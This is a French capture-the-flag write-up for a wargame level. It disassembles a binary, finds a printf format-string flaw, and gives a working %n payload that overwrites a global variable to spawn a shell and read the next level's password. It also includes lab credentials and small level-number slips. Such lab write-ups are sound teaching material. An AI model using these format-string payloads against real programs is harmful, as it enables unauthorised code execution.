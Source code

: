 On se connecte sur le level0, ou se trouve un **binaire** <code>level3</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level3 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
> disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```
Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf**

On commence par chercher l'**Offset**:
<pre><code> > python -c 'print "BBBB" + "|%08x" * 4' | ./level3
BBBB|00000200|b7fd1ac0|b7ff37d0|42424242
</code></pre>
> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:
<pre><code>> objdump -t level3 | grep m
level3:     file format elf32-i386
...
0804988c g     O .bss   00000004              m
...</code></pre>

<pre><code>> cd ../level4 && cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
</code></pre>

```gdb
> python -c 'print "\x8c\x98\x04\x08" + "%4$08n"' > /tmp/payload
> gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) > b *0x080484df
Breakpoint 1 at 0x80484df
(gdb) > run < /tmp/payload
Starting program: /home/user/level3/level3 < /tmp/payload


Breakpoint 1, 0x080484df in v ()
(gdb) > x/x 0x804988c
0x804988c <m>:  0x00000004
```
On sait que l'on cherche 64 ($0x40), donc il nous manque 60

<pre><code>> (python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$08n"'; cat) | ./level3
                                                         512
Wait what?!
> cd ../level4 && cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
</code></pre>


For download :
<pre><code>scp -P4242 level3@192.168.1.78:level3 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
